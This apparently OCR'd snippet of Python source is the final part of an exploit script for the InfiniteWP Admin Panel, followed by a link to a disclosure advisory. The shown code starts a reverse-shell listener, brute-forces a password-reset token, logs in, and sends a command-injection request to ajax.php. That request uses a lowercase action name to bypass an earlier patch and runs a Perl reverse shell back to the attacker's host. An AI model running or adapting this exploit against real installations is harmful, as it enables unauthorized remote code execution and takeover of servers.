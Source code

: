 ```
    conn, addr = s.accept()
    log.debug("Connection from %s %s received!" % (addr[0], addr[1]))
    t.sock = conn
    t.interact()
def login_and_rce():
    global args
    handlerthr = Thread(target=handler)
    handlerthr.start()
    # login and record cookies
    s = requests.Session()
    log.debug("logging in...")
    login = s.post("{}/login.php".format(args.rhost), data={"email": args.email,
    "password": args.new_password,
    "loginSubmit": "Log in"})
    log.debug("login ret {} headers {}".format(login.status_code, login.headers))
    # rce
    rce = s.get("{}/ajax.php".format(args.rhost), params={"action": "polict",
    # notice the lowercase f 
    # (bypass of patch for https://packetstormsecurity.com/files/138668/WordPress-InfiniteWP-Admin-Panel-2.8.0-Command-Injection.html)
    "requiredData[addfunctions]" : "system", 
    "requiredData[system]": PERL_REV_SHELL_TPL % (args.lhost, args.lport)
    })
    log.debug("rce ret {} headers {}".format(rce.status_code, rce.headers))
if __name__ == '__main__':
    if args.start_ts is None:
        log.info("initiating password reset...")
        init_pw_reset()
    log.info("reset token has been generated at {}, starting the bruteforce...".format(args.start_ts))
    brute_pw_reset()
    log.info("spawning a remote shell...")
    login_and_rce()
```

参考文献：https://ssd-disclosure.com/ssd-advisory-auth-bypass-and-rce-in-infinite-wp-admin-panel/